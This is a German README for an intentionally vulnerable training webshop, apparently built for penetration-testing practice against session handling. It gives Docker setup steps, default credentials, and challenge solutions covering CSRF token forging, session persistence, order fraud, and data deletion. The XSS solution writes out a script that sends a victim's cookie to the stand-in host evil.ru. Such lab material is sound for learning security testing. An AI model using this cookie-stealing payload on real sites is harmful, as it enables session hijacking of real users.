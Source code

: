 [![Build Status](https://travis-ci.org/BenjiTrapp/Project-Makalu.svg?branch=master)](https://travis-ci.org/BenjiTrapp/Project-Makalu)
[![Dependency Status](https://dependencyci.com/github/BenjiTrapp/Project-Makalu/badge)](https://dependencyci.com/github/BenjiTrapp/Project-Makalu)

# Project [Makalu](https://de.wikipedia.org/wiki/Makalu) - An unsecure Webshop with an intentional broken Session Handling
Im Zuge des neuen Online Shops der **anna group** wird auch ein neues Session Handling benötigt. Der hier vorliegende 
Code steht kurz vor dem produktiven Livegang. Trotz der rapiden Entwicklung machen sich erhebliche Zweifel breit, ob
 nicht etwas wichtiges vergessen wurde?

### Motivation
Moderne WebApps verfügen teilweise über eine enorme Komplexität. Um den Kunden vor mögliche Angriffe zu schützen, benötigen unter anderem Requests die an eine WebApp gestellt werden eine Login-Session. Ein Request benötigt üblicherweise die Daten aus einer 
vorherigen Response (bspw. CSRF tokens). Die empfangenen Daten in einem Teilrequest, können auch einige Requests später noch 
benötigt werden wie zum Beispiel während des Checkout Prozesses. Dies macht den Einsatz von "unique" Namen/IDs während der Erstellung eines Requests notwendig. 
 
**Randbemerkung**: Das Fuzzing bspw. im Kontext eines CSRF tokens, erzeugt eine Vielzahl von Daten sowie Aufrufe innerhalb der WebApplikation. Dadurch kann im Falle eines Angriffs, die Performance der gesamten Applikation beeinträchtigen. Die Performance selbst,
steht in diesem Penetrationtests NICHT im Fokus, kann aber je nach gewählter Fuzzing-Methode zu einem "Problem" für den Angriff werden. 

## Problemstellung:
 Helfe der **anna group** durch einen Penetrationtest die Sicherheit des Session Handlings zu prüfen. Um diesen Wunsch
 nachzukommen muss zunächst die Applikation installiert und betriebsbereit gemacht werden. Hierbei hilft 
 sicherlich folgende Anleitung weiter:
 
#### Installation & starten der WebApp
1. mittels Docker
     ```
     1. ``$ docker pull nyctophobia/project-makalu``
     2. ``$ docker run -d -p 4711:4711 project-makalu``
     3. Öffne im Browser: "http://localhost:4711"
     ```
2. mittels Docker Compose
     ```
     1. Git repository pullen von GitHub (git pull https://github.com/BenjiTrapp/Project-Makalu.git)
     2. In das Verzeichnis Wechseln
     3. ``docker-compose up``
     4. Öffne im Browser: "http://localhost:4711"
     ```
3. Lokal in der IDE
     ```
     1. Die Datei https://github.com/BenjiTrapp/Project-Makalu/blob/master/ProjectMakaluApp.py editieren: 
            Host in der Main Methode von 0.0.0.0 auf 127.0.0.1 abändern
     2. Editierte Main-Methode starten in der IDE z.B. PyCharm
     ```

#####  [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo

## Durchführung des Penetrationtests
Für den Test existiert folgende Use Cases. Zur Durchführung des Penetrationtests kann das File 
"/doc/Burp.burp-projectopts.json" mittels [Burp](https://portswigger.net/burp/freedownload/) als Projekt 
geladen werden. In der JSON-Datei sind alle "session handling rules" enthalten, um die nachfolgenden Challenges
zu lösen. Die Challenges können natürlich auch mit anderen Tools wie bspw. OWASP ZAP gelöst werden.

#### Use Case: Bau dir einen eigenen CSRF Token
```
[Challenge]: Der Übertragene CSRF Token muss übereinstimmen und mit jedem POST Request übertragen werden

[Lösung]:
* Capture des Requests von einem bestehenden CSRF Token
* Erstelle eine "Run a Macro" session handling Regel
    * Der Scope liegt auf den Parameter des CSRF Tokens
    * Update den CSRF Token NUR im aktuell gestellten Request
```

#### Use Case: Übernehme die Session eines anderen Users mittels [XSS-Lücke](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Finde ein Eingabefeld, dass eine XSS-Lücke enthält und klaue damit die Session eines ahnungslosen Opfers

[Lösung]:
* Platziere an einer geeigneten Stelle ein inline JavaScript wie beispielsweise: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extrahiere den erbeuteten Cookie aus dem Request und übernehme die Session 
```

#### Use Case: Behalte die Login-Session offen
```
[Challenge]: Mit einer Wahrscheinlichkeit von 5% beenden WebApplikationen die Login-Session

[Lösung]:
* Capture des Login-Requests in einem Makro
* Erstelle eine "Check Session is Valid" Regel
    * Erstelle einen Request
    * Prüfe den Response-Body nach einem Benutzernamen für die gültige Session
    * Alternativ: Prüfe die Umleitung der Login-URL (die Session muss für diesen Fall invalide sein)
    * Spiele das aufgezeichnete Makro ab bei der Invalidierung der Session
```
    
#### Use Case: Begehe Bestellbetrug 
```
[Challenge]: Führe multiple Requests durch bis die finale Bestellbestätigung erscheint

[Lösung]:
* Führe alle Requests durch bis einer mit Hilfe eines Makros gefuzzed werden kann.
* Finalisiere den Bestellbetrug mit einem "Run a Post-Request Macro", dass den aktuellen Request zurück gibt
* Definiere einen engen Definitionsbereich (URL, Parameter)
```

#### Use Case: Löschen von Eingefügten Daten
```
[Challenge]: Aktuell sind nur drei Einträge erlaubt. Um dies etwas gerechter zu machen, soll die "add" 
Funktionalität gefuzzed werden

[Lösung]:
* Lösche nachträglich gerade hinzugefügte Notizen 
    * Erstelle ein POST-request Makro, dass die Object ID extrahiert und anschließend den Löschvorgang anstößt.
```
